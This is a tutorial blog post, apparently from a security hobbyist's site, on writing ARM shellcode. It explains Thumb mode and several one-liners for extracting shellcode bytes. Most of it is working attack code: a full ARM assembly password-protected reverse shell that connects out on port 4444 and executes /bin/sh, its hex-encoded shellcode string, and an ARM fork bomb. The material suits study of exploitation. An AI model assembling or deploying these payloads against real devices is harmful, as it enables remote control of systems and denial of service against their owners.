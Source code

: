 ```yaml
---
layout: post
title: Writing ARM Shellcode
---
```


**PWN** | First post that teaches you how to write shellcodes in ARM.

## Shellcode Writing Basics

**Registers:**
- `R0-R10` : General Purpose Register
- `R11`    : Frame Pointer (FP)
- `R12`    : Intra Procedural Call (IPC)
- `R13`    : Stack Pointer (SP)
- `R14`    : Link Register (LR)
- `R15`    : Program Counter/Instruction Pointer (PC)


ARM has 2 modes, the Thumb mode has instructions in 16 bits and the ARM mode has instructions in 32 bits.

to switch in Thumb mode here is what you have to do : 
```asm
 add r0, pc, #1
 bx  r0
// le code qui suivera sera en thumb mode
```
in a first time we add 1 to PC (Program Counter) then we put the result in r0. For the 2nd instruction we use BX (Branch & Exchange) in r0. If LSB=1 (low weight bit) then we are in thumb mode.

![](https://i.imgur.com/z7tNUe5.png)




several techniques exist to parse a shellcode:

1 - usage of awk
```bash
for i in $(objdump -d hello | grep "^ "|awk -F"[\t]" '{print $2}'); do echo -n ${i:6:2}${i:4:2}${i:2:2}${i:0:2};done| sed 's/.\{2\}/\\x&/g'
```
2 - usage of regex + **addition of double quotes**
```bash
objdump -d hello |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
3 - usage of **hexdump** and **objcopy**
```bash
objcopy -O binary fichier.bin fichier.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' fichier.dump
```

![](https://i.imgur.com/VUjjIrl.png)



### Reverse Shell in ARM

![](https://i.imgur.com/xbUxAgq.png)

here is how to make a structure in ARM : 

```asm
adr r1, _sockaddr @ sockaddr struct 
...

_sockaddr: 
 	.hword 2 @ sin_family 
 	.hword 0x5c11 // sin_port 4444
 	.word 0x100007f @ sin_addr 127.0.0.1
 	.byte 0,0,0,0,0,0,0,0 @ sin_zero 
```
then we use dup2() to redirect the standard outputs.

### Password-Protected Reverse Shell

```asm
.section .text
.global _start
_start:

.arm
    add   r3, pc, #1
    bx    r3

.thumb

    mov   r0, #2
    mov   r1, #1
    eor   r2, r2
    mov   r7, #200
    add   r7, #81
    svc   #1
mov   r10, r0 
    adr   r1, target
    strb  r2, [r1, #1]
    strb  r2, [r1, #5]
    strb  r2, [r1, #6] 
    mov   r2, #16
    add   r7, #2  
    svc   #1
    push  {r1}
    mov   r1, sp
    mov   r2, #4
    mov   r7, #3
    .read_pass:
        mov   r0, r10
        svc   #1
    .check_pass:
        ldr   r3, pass
        ldr   r4, [r1]
        eor   r3, r3, r4
    bne .read_pass
    mov   r1, #2 
    mov   r7, #63    
    .loop_stdio:
        mov   r0, r10
        svc   #1
        sub   r1,#1
    bpl .loop_stdio
    adr   r0, command
    eor   r2, r2
    eor   r1, r1
    strb  r2, [r0, #7]
    mov   r7, #11 
    svc   #1

target:
    .ascii "\x02\xff"  
    .ascii "\x11\x5c"
    
    .byte 127,255,255,1 
    
command: .ascii "/bin/sh?"
pass: .ascii "RistBS=aker"
```

if you didn't know, the registers from r0 to r10 are general purpose registers, the register r7 is used to identify the NR of the syscall.

This ascii character `x02\xff\x11\x5c` shows that we are using the TCP proto in IPv4 on port 4444.

**`.read_pass` & `.check_pass` Function:**

for the read function we will just use the C Function: `read(sourcefd, destbuffer, amount)`

- `eor r3, r3, r4` = *r3=r3^r4*
- `bne .read_pass` (Department if Not Equal) equivalent to JNE in x86. This instruction will jump to reading the mdp if it is not equal to the first args passed in r1. (address of r1 retrieved and stored in r4)


```bash
as ARM-reverse-shell.s -o ARM-reverse-shell.o && ld -N ARM-reverse-shell.o -o ARM-reverse-shell && objcopy -O binary ARM-reverse-shell ARM-reverse-shell.dump && hexdump -v -e '"\\""x" 1/1 "%02x" ""' ARM-reverse-shell.dump

\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\x20\x01\x21\x52\x40\xc8\x27\x51\x37\x01\xdf\x82\x46\x0e\xa1\x4a
\x70\x4a\x71\x8a\x71\x10\x22\x02\x37\x01\xdf\x02\xb4\x69\x46\x04\x22\x03\x27\x50\x46\x01\xdf\x0b\x4b\x0c\x68\x63\x40\xf9\xd1\x02\x21\x3f\x27\x50\x46\x01\xdf\x01\x39\xfb\xd5\x04\xa0\x52\x40\x49\x40\xc2
\x71\x0b\x27\x01\xdf\x02\xff\x11\x5c\x7f\xff\xff\x01\x2f\x62\x69\x6e\x2f\x73\x68\x3f\x53\x35\x39\x21
```

> Source : https://github.com/alanvivona/pwnshop/blob/master/src/0x15-ARM-shellcode/ARM-reverse-shell-with-auth.s


### Final test : ForkBomb


| NR | Syscall Name | %r7      |  arg0 (%r0)       |
| ---- |:----------------------- | --- | ----
| 2      | fork | 0x02 |    - |

```asm
.text
.global .start

.start:
	.code 32   
	add r3, pc, #1	
	bx r3

	.code 16
	.loop:
		eor r7, r7 
		add r7, #2
		svc #1
		mov r8, r8
		bl .loop
```

![](https://i.imgur.com/GcsZD2P.png)


##### useful ressources : 
- https://www.youtube.com/watch?v=9tx293lbGuc
- https://www.youtube.com/watch?v=c_jUELOScLc

